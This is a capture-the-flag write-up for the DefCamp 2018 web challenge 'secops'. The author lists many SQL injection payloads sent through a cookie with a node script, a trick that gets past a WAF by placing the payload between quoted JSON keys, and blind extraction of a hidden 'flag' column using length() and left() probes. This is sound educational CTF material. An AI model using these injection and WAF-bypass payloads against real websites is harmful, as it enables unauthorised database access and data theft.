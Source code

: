 # secops (Web - 316pcts.)

```
Firewalls proved to be very useful in our hosting environment as it protects against attacks on vulnerable sites of our clients.
Target: https://secops.dctfq18.def.camp/
Author: Anatol
```

I'll keep it short. very short.

Simple website that let's me change my flair. It looks like this:

![Website](./screenshot.png)

So when I click *set as flair* it sets my flair to anything in there. How does it do it? It's a binded onclick event on that button:

```javascript
$('.hook-set').click(function() {
    var prefs = JSON.stringify({ flair: $(this).data('id') });
    document.cookie = 'prefs' + "=" + encodeURIComponent(prefs) + "; path=/";
    location.reload();
});
```

So after fiddling around a bit, I find that the flair with id 4 has the Name `Flag`. That's like jackpot. Easy challenge. Done. lol.

I was thinking the actual flag is in the Price. As you can see the table has 3 columns: id, name, price. Cool.

It's a pain to work with the cookie encoded, so I scripted a little nodejs tool to help me `pwn.js` to do the hard part for me so I could just try different sqli attack vectors. I didn't need much to discover there was an Web Application Firewal in place (a bit later a teammate pointed it out to me that it said so in the description lol. gotta read it more carefully next time)

The query inside I guessed looks something like this `SELECT name FROM table WHERE id = '%id';`. I played with my tool a bit:

```
node pwn.js "' or 1=1--"
node pwn.js "' or 1=1#"
node pwn.js "' or 1=1##"
node pwn.js "' or 1=1/*"
node pwn.js "' or 1=1###"
node pwn.js "' or 1=1"
node pwn.js "' or 1='1"
node pwn.js "' or 1=1'"
node pwn.js "4' or 1=1'"
node pwn.js "4' or 1''=1'"
node pwn.js "4' or '1'=1'"
node pwn.js "4' or '80'=1'"
node pwn.js "4' or 80=1'"
node pwn.js "4' or 80=80'"
node pwn.js "4' or 80=80''"
node pwn.js "4' or 80=80'''"
node pwn.js "4' or 16='0xf"
node pwn.js "4' or 16=0xf'"
node pwn.js "4' or 1='"
node pwn.js "3' or sleep(5000)='"
node pwn.js "3' or sleep(500000)='"
node pwn.js "3' or 1='"
node pwn.js "3'\"\n"
node pwn.js "3'"
node pwn.js "3' or sleep(1)=0"
node pwn.js "3' or sl/**/eep(1)=0"
node pwn.js "3' or sl/**/eep(1)='0"
node pwn.js "3' or sl/**/eep(50)='0"
node pwn.js "3' or SLeEp(50)='0"
node pwn.js "3' or SLeEp (50)='0"
node pwn.js "3' or benchmark(200000,md5(now()))='0"
node pwn.js "3' or benchmark()='0"
node pwn.js "3' or b/**/enchmark()='0"
node pwn.js "3' or md5()='0"
node pwn.js "3 or md5()=0"
node pwn.js "3' or"
node pwn.js "3' or 1=1--"
node pwn.js "3' or 1=1/*"
node pwn.js "3' or 1=1#"
```

All failures. Website was sending 500 on SQL ERROR. Otherwise, WAF was blocking the request with 403. almost every time.

Then I figured out after reading a bit on WAF on OWASP that maybe it reacts somehow to
a cookie like `{"flair":"a","flair":${JSON.stringify(flair)},"flair":"b"}`. Nope. But that pointed me on the right direction. The WAF was accepting some things when I used quotes around them. So what if quote left and right, json valid, and send it. Hopefully WAF uses a regex, not a json parser (who parses cookies for JSON?!), so maybe it's not that strict inside quotes.

We got a winner.
`{"flair":"'","flair":${JSON.stringify(flair)},"flair2":"'"}`
PS: I dont think the first flair key is necessary but I didn't test it.

So back to testing attack vectors:
```
node pwn.js "3' order by '1"
node pwn.js "3' order by '1'--#"
node pwn.js "3' order by '1'"
node pwn.js "3' order by 1"
node pwn.js "3' or 1='1"
node pwn.js "3' and 1='0"
node pwn.js "3' union all select '1"
node pwn.js "3' union sele/**/ct '1"
node pwn.js "3' u/**/nion sele/**/ct '1"
node pwn.js "3' union select '1"
```

`Union select` blocked by WAF.

```
node pwn.js "4' and length(price)<10 and 1='1"
node pwn.js "4' and length(price)<5 and 1='1"
node pwn.js "4' and length(price)<8 and 1='1"
node pwn.js "4' and length(price)<6 and 1='1"
node pwn.js "4' and length(price)<7 and 1='1"
node pwn.js "4' and length(price)=6 and 1='1"
node pwn.js "4' and left(price,2)='99' and 1='1"
node pwn.js "4' and left(price,3)='999' and 1='1"
node pwn.js "4' and left(price,4)='9999' and 1='1"
node pwn.js "4' and left(price,4)='999.' and 1='1"
node pwn.js "4' and left(price,5)='999.' and 1='1"
node pwn.js "4' and left(price,5)='999.9' and 1='1"
node pwn.js "4' and left(price,7)='999.99' and 1='1"
node pwn.js "4' and left(price,6)='999.99' and 1='1"
node pwn.js "4' and (sel/**/ect 1 from information_schema)='999.99' and 1='1"
node pwn.js "4' and (sel/**/ect 1 from informat/**/ion_schema)='999.99' and 1='1"
node pwn.js "4' and (union select 1 from informat/**/ion_schema)='999.99' and 1='1"
```

The flag wasn't in `price` :(. also `information_schema` blocked.

```
node pwn.js "4' order by '1"
node pwn.js "4' and length(flag)='999.99' and 1='1"
node pwn.js "4' and length(flag)>0 and 1='1"
node pwn.js "4' and length(flag)>10 and 1='1"
node pwn.js "4' and length(flag)<100 and 1='1"
node pwn.js "4' and length(flag)<50 and 1='1"
node pwn.js "4' and length(flag)<25 and 1='1"
node pwn.js "4' and length(flag)<10 and 1='1"
node pwn.js "4' and length(flag)<64 and 1='1"
node pwn.js "4' and length(flag)=64 and 1='1"
node pwn.js "4' and length(flag)=70 and 1='1"
```

But on a lucky guess of a teammate I found out there was another column named `flag` and it had the right length (70 chars). Jackpot!

After that I coded a binary search into my script and waited a bit to get the flag. BLIND. The code is in `pwn.js`. To run it you need `nodejs`
```
npm install
npm pwn.js
```
